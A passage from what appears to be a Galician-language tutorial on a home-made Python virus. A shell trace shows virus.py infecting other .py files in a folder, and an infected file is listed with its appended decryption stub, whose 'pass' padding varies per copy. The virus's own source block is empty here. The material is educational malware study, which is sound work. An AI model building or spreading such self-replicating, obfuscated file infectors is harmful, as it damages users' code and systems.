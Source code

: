 ```python
```

Se o executamos o xerme nun cartafol con varios arquivos con extensión .py obteremos a seguinte traza:
```shell
probasvx@probasvx:~/virus3$ ls -las
total 20
4 drwxr-xr-x  2 probasvx probasvx 4096 Dec 13 18:26 .
4 drwxr-xr-x 23 probasvx probasvx 4096 Dec 13 17:58 ..
4 -rw-r--r--  1 probasvx probasvx   39 Dec 13 18:26 Ola2.py
4 -rw-r--r--  1 probasvx probasvx   20 Dec 13 17:57 Ola.py
4 -rw-r--r--  1 probasvx probasvx 3764 Dec 13 18:16 virus.py
probasvx@probasvx:~/virus3$ cat Ola.py 
print("Ola mundo!")
probasvx@probasvx:~/virus3$ cat Ola2.py 
# Comentario
print("Ola outra vez :)")
probasvx@probasvx:~/virus3$ python3 virus.py 
Fuches infectado
probasvx@probasvx:~/virus3$ ls -las
total 28
4 drwxr-xr-x  2 probasvx probasvx 4096 Dec 13 18:26 .
4 drwxr-xr-x 23 probasvx probasvx 4096 Dec 13 17:58 ..
8 -rw-r--r--  1 probasvx probasvx 4123 Dec 13 18:27 Ola2.py
8 -rw-r--r--  1 probasvx probasvx 4113 Dec 13 18:27 Ola.py
4 -rw-r--r--  1 probasvx probasvx 3764 Dec 13 18:16 virus.py
```

Na traza pódese observar que o tamaño do ficheiro Ola2.py, antes da execución do virus, tiña 19 bytes máis ca Ola.py. 
Despois da execución do virus, Ola2.py pasou a ter só 10 bytes máis. Isto débese á cantidade e posición de “pass” 
inseridos no código que non se cifra do virus. A continuación móstranse os códigos de cada ficheiro:
```shell
probasvx@probasvx:~/virus3$ cat Ola.py 
print("Ola mundo!")
def calcula_clave(texto):
    pass
    if len(texto) >= 3:
        clave = ord(texto[0]) + ord(texto[1]) + ord(texto[2])
        pass
        pass
        pass
    else:
        clave = 42
    return clave


def descifra(texto, clave):
    texto_descifrado = ""
    for caracter in texto:
        if caracter.isupper():
            texto_descifrado += chr((ord(caracter) - clave - 65) % 26 + 65)
        elif caracter.islower():
            pass
            pass
            pass
            texto_descifrado += chr((ord(caracter) - clave - 97) % 26 + 97)
        else:
            texto_descifrado += caracter
    pass
    return texto_descifrado
```
